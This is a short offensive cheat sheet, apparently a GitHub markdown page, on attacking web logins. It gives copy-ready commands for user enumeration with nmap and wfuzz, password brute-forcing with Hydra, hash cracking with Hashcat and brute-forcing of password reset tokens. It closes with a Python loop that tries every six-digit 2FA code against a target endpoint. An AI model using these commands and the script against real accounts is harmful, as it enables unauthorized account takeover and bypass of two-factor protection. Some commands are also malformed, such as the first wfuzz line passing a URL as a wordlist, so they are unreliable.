 ## User Enumeration

### Using Nmap (Replace target.com and port with your target)

```bash
nmap -p <port> --script http-enum-users.nse target.com
```

### Using Wfuzz (Replace USERNAME_LIST with a wordlist)

```bash
wfuzz -c -z file,USERNAME_LIST -w target.com/login?username=FUZZ
```

## Brute-Forcing Passwords

### Using Hydra (Replace username, password_list, and target)

```bash
hydra -l username -P password_list target.com http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid username or password"
```

### Using Hashcat (For Offline Password Cracking)

```bash
hashcat -m <hash_type> <hash_file> <wordlist>
```

## Brute-Forcing Password Reset Tokens

### Using Wfuzz (Replace TOKEN_LIST)

```bash
wfuzz -c -z file,TOKEN_LIST target.com/reset?token=FUZZ
```

## Brute-Forcing 2FA Codes

### Using a Custom Script (Python Example)

```python
import itertools
import requests

url = "https://target.com/2fa"
headers = {"Content-Type": "application/json"}

for code in itertools.product("0123456789", repeat=6):
    payload = {"otp": "".join(code)}
    response = requests.post(url, json=payload, headers=headers)
    if "success" in response.text:
        print("Valid 2FA Code Found:", "".join(code))
        break
```
